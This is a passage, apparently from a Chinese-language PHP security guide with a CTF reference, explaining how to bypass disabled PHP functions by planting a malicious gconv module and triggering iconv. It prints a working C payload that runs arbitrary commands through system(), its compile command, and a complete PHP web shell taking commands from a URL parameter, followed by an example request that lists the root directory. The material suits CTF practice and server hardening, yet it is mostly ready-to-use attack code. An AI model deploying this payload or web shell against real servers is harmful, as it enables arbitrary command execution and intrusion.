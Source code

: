         // This function is called when the module is loaded
        void gconv_init() {
            // Execute the command (e.g., get command from environment variable)
            const char* cmd = getenv("_iconv_cmd");
            if (cmd != NULL) {
                system(cmd);
            } else {
                system("echo 'iconv bypass success, _iconv_cmd not set' > /tmp/iconv_fallback.txt");
            }
            // Exit cleanly to avoid crashing the parent PHP process (optional but good practice)
            exit(0); 
        }

        // This function is called for the actual conversion (can also be used)
        void gconv() {
            // Could also put payload here, gconv_init is usually preferred
            exit(0); 
        }
        ```
        编译: `gcc -shared -fPIC -o pwn.so pwn.c`
    3.  **设置 `GCONV_PATH`:** 使用 `putenv()` 设置 `GCONV_PATH` 环境变量，使其指向存放 `gconv-modules` 文件的目录 (例如 `putenv("GCONV_PATH=/tmp");`)。
    4.  **设置命令环境变量:** 使用 `putenv()` 设置一个包含要执行命令的环境变量 (例如 `putenv("_iconv_cmd=id > /tmp/iconv_out.txt");`)。
    5.  **触发 `iconv` 调用:** 调用 PHP 的 `iconv()` 函数，使用自定义的字符集名称作为转换源或目标 (例如 `iconv("PWN", "UTF-8", "test");`)。这会使 glibc 加载 `/tmp/pwn.so` 并执行 `gconv_init()` 中的代码。
*   **利用条件 (Exploitation Conditions):**
    *   Linux 操作系统。
    *   `putenv()` 函数可用。
    *   PHP 安装并启用了 `iconv` 扩展。
    *   存在可写的目录 (如 `/tmp`) 用于上传 `gconv-modules` 和 `pwn.so` 文件。
    *   `iconv()` 函数本身未被禁用 (或者可以使用其他触发 iconv 的方式)。
*   **利用步骤 / 示例 Payload (Exploitation Steps / Example Payload):**
    1.  上传编译好的 `pwn.so` 到 `/tmp/pwn.so`。
    2.  上传 `gconv-modules` 文件 (内容如上) 到 `/tmp/gconv-modules`。
    3.  编写并上传触发 PHP 脚本 `iconv_trigger.php`:
        ```php
        <?php
        $cmd = isset($_GET['cmd']) ? $_GET['cmd'] : 'id';
        $output_file = '/tmp/iconv_out.txt'; // Ensure /tmp is writable
        $cmd_with_redir = $cmd . ' > ' . $output_file . ' 2>&1';
        
        putenv("GCONV_PATH=/tmp"); // Point to directory with gconv-modules
        putenv("_iconv_cmd=" . $cmd_with_redir); // Pass command via env var

        // Trigger iconv using the custom charset "PWN"
        if (function_exists('iconv')) {
            @iconv("PWN", "UTF-8", "test"); // The string "test" is arbitrary
        } else {
            die("iconv function is disabled.");
        }

        // Read output
        sleep(1);
        if (file_exists($output_file)) {
            echo "Command output:<pre>" . htmlspecialchars(file_get_contents($output_file)) . "</pre>";
            // @unlink($output_file);
            // It's tricky to cleanup gconv-modules and pwn.so from within the triggered payload easily
        } else {
            echo "Output file not found or command failed.";
        }
        ?>
        ```
    4.  访问 `iconv_trigger.php?cmd=ls -al /`。
*   **CTFHUB 示例 (CTFHUB Example):**